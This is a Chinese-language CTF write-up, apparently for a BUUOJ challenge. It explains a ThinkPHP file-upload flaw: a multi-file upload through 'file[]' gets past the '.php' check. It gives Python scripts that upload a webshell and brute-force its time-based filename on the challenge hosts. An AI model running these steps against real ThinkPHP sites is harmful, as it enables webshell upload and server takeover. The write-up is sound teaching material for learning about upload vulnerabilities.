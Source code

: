 ```yaml
---
Author: Coder-LYQ
Date: 2020-12-27
---
```


## 思路

1.打开网页，首先是一段php源码，如下：

```php
 <?php 
    namespace Home\Controller; 
	use Think\Controller; 
	class IndexController extends Controller {   
        public function index()   
        {     
            show_source(__FILE__);   
        }   
        public function upload()   
        {     
            $uploadFile = $_FILES['file'] ;         
            if (strstr(strtolower($uploadFile['name']), ".php") ) {       
                return false;     
            }         
            $upload = new \Think\Upload();// 实例化上传类     
            $upload->maxSize = 4096 ;// 设置附件上传大小     
            $upload->allowExts = array('jpg', 'gif', 'png', 'jpeg');// 设置附件上传类型     
            $upload->rootPath = './Public/Uploads/';// 设置附件上传目录     
            $upload->savePath = '';// 设置附件上传子目录     
            $info = $upload->upload() ;  //此处存在漏洞   
            if(!$info) {// 上传错误提示错误信息      
                $this->error($upload->getError());      
                return;     
            }else{// 上传成功 获取上传文件信息      
                $url = __ROOT__.substr($upload->rootPath,1).$info['file']['savepath'].$info['file']['savename'] ;
                echo json_encode(array("url"=>$url,"success"=>1));     
            }   
        } 
    } 
```

分析该段代码：

- 首先会获取上传文件的文件名，并将其转化为小写，判断是否包含.php。

- 限制了上传文件的最大大小：4096

- 限制了可以上传的文件类型：jpg、gif、png、jpeg

- thinkphp**默认上传路径**是/home/index/upload

- 这里调用**upload()函数**，该函数存在一个漏洞，

  在不传参时为多文件上传，整个$FILES数组的文件都会上传保存，但该题只限制了$_FILES[file]的上传后缀，因此就可以通过上传多文件绕过php后缀限制。
  
  

2. 该题与常规的有文件上传按钮的题目不同，需要自己构建POST请求，上传文件。--》可以写python脚本实现

   > $_FILES是一个预定义的数组，用来获取通过POST方法上传文件的相关信息。
   >
   > 单个文件上传--》$_FILES为二维数组
   >
   > 多个文件上传--》$_FILES为三维数组

   利用python进行POST请求上传文件，格式如下：

   ![img](../images/202011201118394.png)

3. thinkphp上传文件时，文件名是按顺序递增的

采用下面的脚本，上传多个文件，来绕过对文件后缀名的检测

> 查看thinkphp源码得知文件名是通过uniqid函数生成的，uniqid函数是基于**以微秒计**的当前时间计算的，两个同时上传生成的文件名相差不会太远，因此可以在两个文件名之间进行暴力遍历，找到上传的木马文件的文件名。

```python
import requests

url = 'http://7a4fb2e4-7ba4-49b0-a137-450ceea340d1.node3.buuoj.cn/index.php/home/index/upload'
file1 = {'file':open('special_dict.txt','r')}
file2 = {'file[]':open('test.php','r')}//upload()不传参时即是批量上传所以用[]

r = requests.post(url,files = file1)
print(r.text)

r = requests.post(url,files = file2)
print(r.text)

r = requests.post(url, files = file1)
print(r.text)
```

4. 可以看到上传的两个txt文件的文件名前几位都相同，只有最后五位不同，因此可以只遍历后五位，找出上传的木马php文件的文件名，然后再进行连接。

<img src="../images/image-20201227212507106.png" alt="image-20201227212507106" style="zoom:50%;" />

​	进行遍历的脚本为：

```python
dir ='abcdef0123456789'
for i in dir:
    for j in dir:
        for k in dir:
            for x in dir:
                for y in dir:
                    url = 'http://e2a3bb2f-2911-4b51-b679-0d15f7f3899b.node3.buuoj.cn/Public/Uploads/2020-12-27/5fe88b1b{}{}{}{}{}'.format(i,j,k,x,y)
                    #print(url)
                    print("next")
                    r = requests.get(url)
                    if r.status_code == 200:
                        print(url)
                        break
```



## 总结

- 本题主要考查的是对thinkphp的upload文件上传漏洞
  - 上传多个文件，即可绕过对文件后缀名的检测，成功上传php文件
  - upload函数默认上传的文件路径为/home/index/upload
  - thinkphp上传文件后会修改文件名，根据上传时间生成，因此同时上传的文件一般文件名比较接近。
